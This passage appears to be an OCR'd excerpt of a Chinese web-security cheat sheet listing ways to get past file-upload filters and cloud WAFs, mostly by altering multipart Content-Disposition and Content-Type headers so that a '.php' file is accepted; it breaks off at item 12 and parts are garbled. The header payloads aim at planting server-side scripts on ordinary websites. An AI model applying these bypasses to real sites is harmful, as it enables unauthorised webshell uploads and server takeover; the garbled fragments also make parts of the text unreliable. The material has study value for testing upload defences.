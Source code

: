 ```
Content-Disposition: form-data; 
//通过替换form-data 为\*来绕过
Content-Disposition: \*; 

```

7.HTTP header 属性名称绕过

```
源代码:
Content-Disposition: form-data; Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; 085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".

```

8\. 等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。

```

9\. 修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等

```

10\. 百度云上传绕过  

```
Content-Disposition: form-data; 
或者：
filename='1.php(回车)'

```

11\. 阿里云上传绕过

```
源代码：
Content-Disposition: form-data; Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; 
将=号这里回车删除掉Content-Type: image/jpeg即可绕过。

```

12.360 主机上传绕过
